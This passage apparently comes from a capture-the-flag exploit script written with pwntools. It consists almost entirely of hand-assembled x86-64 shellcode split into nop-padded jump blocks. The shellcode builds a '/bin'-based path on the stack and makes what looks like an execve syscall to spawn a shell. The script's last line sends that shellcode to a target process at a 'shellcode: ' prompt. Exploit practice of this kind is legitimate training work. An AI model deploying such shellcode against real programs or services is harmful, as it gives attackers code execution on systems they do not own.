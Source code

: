 ```cs
            nop
            nop
            nop
            nop
            nop
        sc6:
            push 1852400175
            nop
            jmp sc7
            nop
            nop
            nop
            nop
            nop
            nop
            nop
            nop
        sc7:
            pop r10
            shl r9,0x20
            jmp sc8
            nop
            nop
            nop
            nop
            nop
            nop
            nop
            nop
        sc8:
            or r9,r10
            push r9
            nop
            jmp sc9
            nop
            nop
            nop
            nop
            nop
            nop
            nop
            nop
        sc9:
            mov rdi,rsp
            xor rdx,rdx
            syscall












         ''')
input()
p.sendafter(b'shellcode: ',sc)


```